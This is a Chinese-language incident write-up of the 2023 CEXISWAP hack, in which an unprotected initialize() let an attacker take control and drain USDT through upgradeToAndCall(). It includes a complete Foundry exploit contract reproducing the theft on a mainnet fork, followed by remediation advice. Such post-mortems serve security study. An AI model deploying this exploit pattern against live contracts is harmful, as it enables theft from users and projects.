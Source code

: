 ```yaml
---
layout: post
category: attack_events
---
```

# CEXISWAP@Incorrect-Access

- 时间：2023-09-21 06:56:11 (UTC)
- 损失金额：$30,000 (30,000 USDT)
- twitter：https://twitter.com/DecurityHQ/status/1704759560614126030


## 交易 

- 黑客EOA：[0x060C169C4517D52c4BE9a1Dd53e41a3328d16F04](https://etherscan.io/address/0x060c169c4517d52c4be9a1dd53e41a3328d16f04)
- 黑客用来攻击的合约地址：[0x8C425Ee62D18b65Cc975767C27c42dE548D133A1](https://etherscan.io/address/0x8c425ee62d18b65cc975767c27c42de548d133a1)
- 被攻击的合约地址：[0xb8a5890d53df78dee6182a6c0968696e827e3305](https://etherscan.io/address/0xb8a5890d53df78dee6182a6c0968696e827e3305)
- 攻击事件hash：[0xede72a74d8398875b42d92c550539d72c830d3c3271a7641ee1843dc105de59e](https://etherscan.io/tx/0xede72a74d8398875b42d92c550539d72c830d3c3271a7641ee1843dc105de59e)

## 资金流向

![image-20231119144401572](14.CEXISWAP@Incorrect-Access/image-20231119144401572.png)

## 攻击过程

![image-20231119144457068](14.CEXISWAP@Incorrect-Access/image-20231119144457068.png)

## 攻击详细分析

攻击步骤就两个：调用`initialize()`和`upgradeToAndCall()`，很明显，`initialize()`是用来获取权限，然后`upgradeToAndCall()`是用权限来获利。

按道理，初始化函数应该只能调用一次，但是黑客看到了项目方调用了两次，如下图。那么猜测这个初始化函数是有问题的，不符合最佳实践。

![image-20231119145634721](14.CEXISWAP@Incorrect-Access/image-20231119145634721.png)

那么这样就可以想一下，是否可以多次调用初始化函数呢？是否任何人都可以调用呢？事实上，任何人都可以调用，这个关键函数没做保护，只是没将合约开源而已。

拿到了权限，就可以调用`upgradeToAndCall()`进行获利。

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract CexiTest is Test {
    ICEXISWAP private constant CEXISWAP =
        ICEXISWAP(0xB8a5890D53dF78dEE6182A6C0968696e827E3305);
    IUSDT private constant USDT =
        IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    Exploiter private exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", 18182605);
        vm.label(address(CEXISWAP), "CEXISWAP");
        vm.label(address(USDT), "USDT");
    }

    function testExploit() public {
        exploiter = new Exploiter();
        exploiter.exploit();
        emit log_named_decimal_uint(
            "Attacker USDT balance after exploit",
            USDT.balanceOf(address(this)),
            6
        );
    }
}

contract Exploiter {
    ICEXISWAP private constant CEXISWAP =
        ICEXISWAP(0xB8a5890D53dF78dEE6182A6C0968696e827E3305);
    IUSDT private constant USDT =
        IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    bytes32 private constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    address private immutable owner;

    constructor() {
        owner = msg.sender;
    }

    function exploit() external {
        CEXISWAP.initialize(
            "HAX",
            "HAX",
            address(this),
            address(this),
            address(this),
            address(this)
        );
        CEXISWAP.upgradeToAndCall(
            address(this),
            abi.encodePacked(this.exploit2.selector)
        );
    }

    // function 0x1de24bbf
    function exploit2() external {
        // delegatecall
        USDT.transfer(owner, USDT.balanceOf(address(this)));
    }

    function upgradeTo(address newImplementation) external {
        bytes32 slot = IMPLEMENTATION_SLOT;
        assembly {
            sstore(slot, newImplementation)
        }
    }
}
```

## 建议

- 未开源 != 安全
- 关键函数一定要做权限校验 



